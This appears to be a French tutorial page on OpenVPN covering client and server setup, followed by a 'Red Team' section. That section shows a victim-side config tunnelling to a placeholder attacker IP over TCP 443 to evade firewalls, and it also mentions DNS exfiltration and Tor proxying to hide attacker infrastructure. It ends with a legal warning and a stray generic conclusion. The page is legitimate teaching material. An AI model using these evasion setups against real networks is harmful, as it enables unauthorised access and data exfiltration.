

# OpenVPN — Le Tunnel de Confiance

<div
  class="omny-meta"
  data-level="🟡 Intermédiaire"
  data-version="2.6+"
  data-time="~45 minutes">
</div>

<div style="text-align: center; margin: 0 auto;">
    
</div>

## Introduction

!!! quote "Analogie pédagogique — Le Tube Pneumatique Blindé"
    Imaginez que vous êtes dans un café public et que vous voulez envoyer un document secret à votre bureau. Si vous le donnez au serveur, n'importe qui peut le lire. **OpenVPN** agit comme un tube pneumatique blindé et scellé que vous installez entre votre ordinateur et votre bureau. Tout ce que vous envoyez passe par ce tube. Les observateurs extérieurs voient un tube, mais ils ne peuvent ni voir son contenu, ni deviner le point d'origine ou la destination finale réelle de vos paquets.

**OpenVPN** est une solution VPN (Virtual Private Network) open-source de référence. Utilisant le protocole TLS pour l'échange de clés, il permet de créer des tunnels sécurisés point-à-point ou site-à-site. Sa flexibilité (UDP/TCP, ports personnalisables) en fait un outil incontournable tant pour les administrateurs réseaux que pour les attaquants cherchant à contourner des pare-feux restrictifs.

<br>

---

## 🛠️ Usage Opérationnel — Mode Client

La méthode standard pour se connecter à un réseau distant (ex: réseaux d'entreprise, environnements de CTF comme TryHackMe/HackTheBox, ou C2 Red Team).

### 1. Lancement Standard

```bash title="Démarrage d'un client OpenVPN en ligne de commande"
# --config : Spécifie le chemin vers le fichier .ovpn
sudo openvpn --config client.ovpn
```
*L'exécution nécessite des privilèges `root` (ou `sudo`) pour créer l'interface réseau virtuelle (`tun0`/`tap0`) et modifier les tables de routage de l'OS.*

### 2. Lancement en Arrière-plan (Daemon)

Utile pour maintenir une connexion active sur un VPS de rebond sans occuper le terminal.

```bash title="Exécution du client en mode démon"
# --daemon : Lance le processus en tâche de fond
# --log : Redirige la sortie (utile pour le debug)
sudo openvpn --config client.ovpn --daemon --log /var/log/openvpn.log
```

### 3. Authentification Automatisée

Si votre fichier `.ovpn` requiert un nom d'utilisateur et un mot de passe, vous pouvez automatiser la connexion.

```bash title="Fichier auth.txt"
# Ligne 1 : Utilisateur
# Ligne 2 : Mot de passe
mon_utilisateur
mon_mot_de_passe_secret
```

```bash title="Lancement avec fichier d'authentification"
sudo openvpn --config client.ovpn --auth-user-pass auth.txt
```

### 4. Vérification de l'Interface

S'assurer que le tunnel est bien établi et que l'adresse IP interne est attribuée.

```bash title="Vérification de l'interface virtuelle"
ip addr show tun0
```

<br>

---

## 🛠️ Usage Opérationnel — Mode Serveur

La configuration d'un serveur OpenVPN nécessite une autorité de certification (PKI) pour générer les clés, souvent gérée avec `Easy-RSA`.

### 1. Fichier de Configuration Serveur (server.conf)

Un exemple de configuration robuste et moderne.

```ini title="/etc/openvpn/server/server.conf"
port 1194
proto udp
dev tun

# Certificats et clés
ca ca.crt
cert server.crt
key server.key
dh dh.pem
tls-auth ta.key 0 # Protection contre DDoS / Port Scanning

# Réseau VPN
server 10.8.0.0 255.255.255.0
ifconfig-pool-persist ipp.txt

# Redirection de tout le trafic client vers le VPN
push "redirect-gateway def1 bypass-dhcp"

# Serveurs DNS poussés aux clients
push "dhcp-option DNS 1.1.1.1"
push "dhcp-option DNS 8.8.8.8"

keepalive 10 120
cipher AES-256-GCM
user nobody
group nogroup
persist-key
persist-tun
status openvpn-status.log
verb 3
```

### 2. Gestion du Service

```bash title="Démarrer et activer le serveur OpenVPN"
sudo systemctl start openvpn-server@server
sudo systemctl enable openvpn-server@server
sudo systemctl status openvpn-server@server
```

<br>

---

## 💀 Red Team & Evasion — L'Art du Bypass

Pour un attaquant ou un Red Teamer, OpenVPN n'est pas seulement un outil de sécurité, c'est un formidable vecteur d'exfiltration et de contournement de restrictions (Egress filtering).

### 1. Bypass de Pare-feu via TCP 443

De nombreux pare-feux d'entreprise bloquent le port UDP 1194 (par défaut), mais laissent le port TCP 443 (HTTPS) ouvert pour la navigation web.

**Côté Serveur (C2 / VPS) :**
```ini title="Configuration du serveur pour le TCP 443"
port 443
proto tcp
dev tun
```

**Côté Client (Victime / Implant) :**
```ini title="Configuration du client pour contourner le filtrage"
remote <IP_ATTAQUANT> 443
proto tcp
```
*Le trafic ressemblera à du trafic web chiffré classique, contournant ainsi de nombreux IDS/IPS.*

### 2. Exfiltration DNS (Slow mais furtif)

Dans des environnements hautement sécurisés (Zero Trust, air-gapped relatif) où tout trafic sortant direct est bloqué SAUF la résolution DNS, OpenVPN peut encapsuler son trafic *dans* des requêtes DNS, bien que d'autres outils comme `Iodine` soient souvent préférés pour cet usage spécifique.

### 3. Proxification et Tor

OpenVPN peut être forcé de router sa connexion initiale à travers un proxy HTTP, SOCKS5 ou même le réseau Tor pour masquer l'infrastructure de l'attaquant.

```ini title="Ajout au fichier client.ovpn pour passer par SOCKS5"
socks-proxy 127.0.0.1 9050
```

<br>

---

## 🏗️ Architecture & Flux Réseau

Le schéma ci-dessous illustre une infrastructure où OpenVPN est utilisé pour établir un tunnel chiffré au travers d'un pare-feu restrictif.



<br>

---

## Conclusion & Alternatives

!!! quote "Ce qu'il faut retenir"
    OpenVPN est un "couteau suisse" du réseau chiffré. Bien qu'historiquement complexe à configurer côté serveur, sa stabilité et sa capacité à contourner les restrictions réseau en font un incontournable absolu, autant pour les administrateurs sécurisant leur SI que pour les équipes offensives maintenant leurs accès.

!!! tip "Les alternatives modernes"
    - **WireGuard** : Beaucoup plus rapide (fonctionnant dans le kernel Linux), code source plus petit, mais basé uniquement sur l'UDP, ce qui rend le contournement de pare-feux TCP 443 plus complexe (nécessitant des tunnels supplémentaires comme `udp2raw`).
    - **Tailscale / ZeroTier** : Idéal pour créer des réseaux maillés (Mesh VPN) sans configurer de serveur central lourd.

!!! warning "Légalité & Éthique"
    L'utilisation d'OpenVPN pour contourner les dispositifs de sécurité réseau d'une organisation sans autorisation explicite (audit, mandat de pentest) constitue une **atteinte aux systèmes de traitement automatisé de données (STAD)** selon l'Article 323-1 du Code pénal français.

---

<br>

---

## Conclusion

!!! quote "Ce qu'il faut retenir"
    L'infrastructure réseau reste le cœur de l'entreprise. La découverte minutieuse des services, des ports ouverts et des vulnérabilités associées est le point de départ de toute compromission interne.

> [Retourner à l'index des outils →](../../index.md)
